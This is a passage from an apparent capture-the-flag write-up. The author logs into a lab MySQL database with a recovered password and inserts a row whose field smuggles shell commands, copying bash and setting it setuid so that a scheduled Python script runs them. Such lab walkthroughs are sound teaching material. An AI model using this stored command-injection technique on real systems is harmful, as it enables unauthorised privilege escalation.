 ```bash
```

We can see Lucien's password for the database server. Let's use this to connect to the database and add fake entries in the `dreamer` and/or `dream` columns that will be execute by the `getDreams.py` script.
```bash
lucien@dreaming:~$ mysql -u lucien -p<REDACTED>
mysql: [Warning] Using a password on the command line interface can be insecure.
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 13
Server version: 8.0.35-0ubuntu0.20.04.1 (Ubuntu)

Copyright (c) 2000, 2023, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> use library
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+-------------------+
| Tables_in_library |
+-------------------+
| dreams            |
+-------------------+
1 row in set (0.00 sec)
mysql> select * from dreams;
+---------+------------------------------------+
| dreamer | dream                              |
+---------+------------------------------------+
| Alice   | Flying in the sky                  |
| Bob     | Exploring ancient ruins            |
| Carol   | Becoming a successful entrepreneur |
| Dave    | Becoming a professional musician   |
+---------+------------------------------------+
4 rows in set (0.00 sec)
mysql> desc dreams;
+---------+--------------+------+-----+---------+-------+
| Field   | Type         | Null | Key | Default | Extra |
+---------+--------------+------+-----+---------+-------+
| dreamer | varchar(50)  | YES  |     | NULL    |       |
| dream   | varchar(255) | YES  |     | NULL    |       |
+---------+--------------+------+-----+---------+-------+
2 rows in set (0.00 sec)
mysql> INSERT INTO dreams (dreamer, dream)
    -> VALUES ('Shell', ';;cp /usr/bin/bash /home/death/;chmod +s /home/death/bash');
Query OK, 1 row affected (0.01 sec)

mysql> select * from dreams;
+---------+----------------------------------------------------------+
| dreamer | dream                                                    |
+---------+----------------------------------------------------------+
| Alice   | Flying in the sky                                        |
| Bob     | Exploring ancient ruins                                  |
| Carol   | Becoming a successful entrepreneur                       |
| Dave    | Becoming a professional musician                         |
| Shell   | ;cp /usr/bin/bash /home/death/;chmod +s /home/death/bash |
+---------+----------------------------------------------------------+
```